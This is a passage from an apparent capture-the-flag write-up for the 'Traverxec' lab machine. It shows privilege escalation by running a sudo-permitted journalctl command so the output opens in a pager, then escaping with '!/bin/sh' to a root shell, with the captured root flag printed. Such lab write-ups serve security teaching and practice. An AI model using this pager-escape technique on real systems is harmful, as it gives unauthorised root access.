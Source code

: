 ```sh

Type:   shell


Code:   sudo journalctl
        !/bin/sh

Type:   sudo

```

We see that if we can run `journalctl` as root, we can run a shell. We cannot run only `journalctl`

```sh
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl
[sudo] password for david:
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
-- Logs begin at Wed 2020-03-25 17:43:25 EDT, end at Wed 2020-03-25 18:05:19 EDT. --
Mar 25 17:49:58 traverxec sudo[11363]: pam_unix(sudo:auth): conversation failed
Mar 25 17:49:58 traverxec sudo[11363]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Mar 25 17:49:58 traverxec sudo[11363]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COMMAND=list
Mar 25 17:53:41 traverxec su[11672]: pam_unix(su-l:auth): authentication failure; logname= uid=33 euid=0 tty= ruser=www-data rhost=  user=david
Mar 25 17:53:43 traverxec su[11672]: FAILED SU (to david) www-data on none
```

However, we can run the last command of the bash file printing the last 5 lines of log files. On this last command we are piping the output to cat. Let's remove the pipeline and just run `journalctl`.

```sh
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2020-03-25 17:43:25 EDT, end at Wed 2020-03-25 18:09:49 EDT. --
Mar 25 17:49:58 traverxec sudo[11363]: pam_unix(sudo:auth): conversation failed
Mar 25 17:49:58 traverxec sudo[11363]: pam_unix(sudo:auth): auth could not identify password for [www
Mar 25 17:49:58 traverxec sudo[11363]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ;
Mar 25 17:53:41 traverxec su[11672]: pam_unix(su-l:auth): authentication failure; logname= uid=33 eui
Mar 25 17:53:43 traverxec su[11672]: FAILED SU (to david) www-data on none
lines 1-6/6 (END)
```

We are now in `less` (or `vi`, I don't know), never the less we can run the command to get a shell, from the editor: `!/bin/sh`

```sh
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2020-03-25 17:43:25 EDT, end at Wed 2020-03-25 18:09:49 EDT. --
Mar 25 17:49:58 traverxec sudo[11363]: pam_unix(sudo:auth): conversation failed
Mar 25 17:49:58 traverxec sudo[11363]: pam_unix(sudo:auth): auth could not identify password for [www
Mar 25 17:49:58 traverxec sudo[11363]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ;
Mar 25 17:53:41 traverxec su[11672]: pam_unix(su-l:auth): authentication failure; logname= uid=33 eui
Mar 25 17:53:43 traverxec su[11672]: FAILED SU (to david) www-data on none
!/bin/sh
# whoami
root
# cat /root/root.txt
9aa36a6d76f785dfd320a478f6e0d906
```
